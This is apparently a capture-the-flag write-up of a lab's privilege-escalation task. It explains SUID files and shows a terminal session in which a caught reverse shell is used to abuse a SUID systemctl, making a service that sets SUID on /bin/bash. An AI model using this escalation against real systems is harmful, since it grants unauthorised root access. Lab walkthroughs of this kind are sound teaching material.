 ># Task 5 Privilege Escalation 
Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

# Answer the questions below


In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

![image](https://i.imgur.com/ZhaNR2p.jpg)

## On the system, search for all SUID files. What file stands out?
```yaml
 /bin/systemctl
```

### Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
```yaml
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.18.8.23] from (UNKNOWN) [10.10.237.96] 47082
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:45:16 up  5:00,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
bash-4.3$ ls
ls
bin   etc         lib         media  proc  sbin  sys  var
boot  home        lib64       mnt    root  snap  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv   usr

bash-4.3$ TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TFTF=$(mktemp).service
bash-4.3$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
bash-4.3$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.L2ZnoQIOt3.service to /tmp/tmp.L2ZnoQIOt3.service.
bash-4.3$ 
/bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.L2ZnoQIOt3.service to /tmp/tmp.L2ZnoQIOt3.service.
```
